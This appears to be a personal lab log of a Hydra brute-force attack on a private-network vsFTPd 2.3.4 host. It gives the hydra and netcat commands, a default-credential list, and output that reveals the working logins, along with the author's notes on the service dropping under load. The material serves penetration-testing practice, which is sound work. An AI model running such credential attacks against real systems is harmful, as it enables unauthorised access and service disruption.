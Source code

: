 `dpl4hydra unix` -> create `~/.dpl4hydra/dpl4hydra_unix.lst`

`sudo hydra -C .dpl4hydra/dpl4hydra_unix.lst -e rn -o output_hydra1 ftp://10.0.2.5 -v`
`n` null passwd
`r` reverse login as passwd
```
[DATA] max 16 tasks per 1 server, overall 16 tasks, 315 login tries, ~20 tries per task
[DATA] attacking ftp://10.0.2.5:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[21][ftp] host: 10.0.2.5   login: ftp
[21][ftp] host: 10.0.2.5   login: ftp   password: ptf
[21][ftp] host: 10.0.2.5   login: ftp   password: ftp
[21][ftp] host: 10.0.2.5   login: user   password: user
Process 9881: Can not connect [unreachable], retrying (1 of 1 retries)
Process 10540: Can not connect [unreachable], retrying (1 of 1 retries)
Process 11090: Can not connect [unreachable], retrying (1 of 1 retries)
```
probably DoS'ed ftp -> `ctrl-c`

`ping 10.0.2.5`
```
PING 10.0.2.5 (10.0.2.5) 56(84) bytes of data.
64 bytes from 10.0.2.5: icmp_seq=1 ttl=64 time=0.329 ms
64 bytes from 10.0.2.5: icmp_seq=2 ttl=64 time=0.540 ms
^C
```
host seems up

`nc -vn 10.0.2.5 21`
```
(UNKNOWN) [10.0.2.5] 21 (ftp) open
220 (vsFTPd 2.3.4)
USER anonymous
331 Please specify the password.
```
ftp is up

`sudo hydra -R -t 5`
`-t 5` tasks (parallel conn.). Maybe ftp will survive this time
```
[INFORMATION] reading restore file ./hydra.restore
[WARNING] options after -R are now honored (since v8.6)
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-13 17:15:13
[DATA] max 5 tasks per 1 server, overall 5 tasks, 315 login tries, ~63 tries per task
[DATA] attacking ftp://10.0.2.5:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] 237.00 tries/min, 237 tries in 00:01h, 78 to do in 00:01h, 5 active
[STATUS] 118.50 tries/min, 237 tries in 00:02h, 78 to do in 00:01h, 5 active
[STATUS] 79.00 tries/min, 237 tries in 00:03h, 78 to do in 00:01h, 5 active
[STATUS] 59.25 tries/min, 237 tries in 00:04h, 78 to do in 00:02h, 5 active
Process 133069: Can not connect [unreachable], retrying (1 of 1 retries)
```
Are you for real? No progress at all, still 78 to do.
Maybe it's bcos of null ass passwd?

`less output_hydra1` - to save current progress
```
# Hydra v9.1 run at 2022-07-13 17:10:19 on 10.0.2.5 ftp (hydra -C .dpl4hydra/dpl4hydra_unix.lst -e rn -o output_hydra1 -v ftp://10.0.2.5)
[21][ftp] host: 10.0.2.5   login: ftp
[21][ftp] host: 10.0.2.5   login: ftp   password: ptf
[21][ftp] host: 10.0.2.5   login: ftp   password: ftp
[21][ftp] host: 10.0.2.5   login: user   password: user
# Hydra v9.1 run at 2022-07-13 17:15:13 on 10.0.2.5 ftp (hydra -R -t 5)
```
ftp seems like is reacting to any passwd

next try:
`sudo hydra -C .dpl4hydra/dpl4hydra_unix.lst -e r -o output_hydra1 -t 10 ftp://10.0.2.5 -v`
```
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 10 tasks per 1 server, overall 10 tasks, 210 login tries, ~21 tries per task
[DATA] attacking ftp://10.0.2.5:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[21][ftp] host: 10.0.2.5   login: ftp   password: ptf
[21][ftp] host: 10.0.2.5   login: user   password: user
[STATUS] 171.00 tries/min, 171 tries in 00:01h, 39 to do in 00:01h, 10 active
[STATUS] 85.50 tries/min, 171 tries in 00:02h, 39 to do in 00:01h, 10 active
Process 205230: Can not connect [unreachable], retrying (1 of 1 retries)
Process 208328: Can not connect [unreachable], retrying (1 of 1 retries)
Process 208330: Can not connect [unreachable], retrying (1 of 1 retries)
^C[ERROR] Received signal 2, going down ...
The session file ./hydra.restore was written. Type "hydra -R" to resume session.
[ERROR] Received signal 2, going down ...
```
 parallelly:
 `nc -vn 10.0.2.5 21`
```
 (UNKNOWN) [10.0.2.5] 21 (ftp) : Connection refused
```
so "Dos" again. I'm begginig to think that ftp block incoming connections after several unsuccessfull attempts for a little time.

`netcat` claim that FTP is up again

`sudo hydra -R -t 5`
```
[INFORMATION] reading restore file ./hydra.restore
[WARNING] options after -R are now honored (since v8.6)
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-13 17:38:56
[DATA] max 5 tasks per 1 server, overall 5 tasks, 210 login tries, ~42 tries per task
[DATA] attacking ftp://10.0.2.5:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[STATUS] attack finished for 10.0.2.5 (waiting for children to complete tests)
1 of 1 target successfully completed, 2 valid passwords found
```
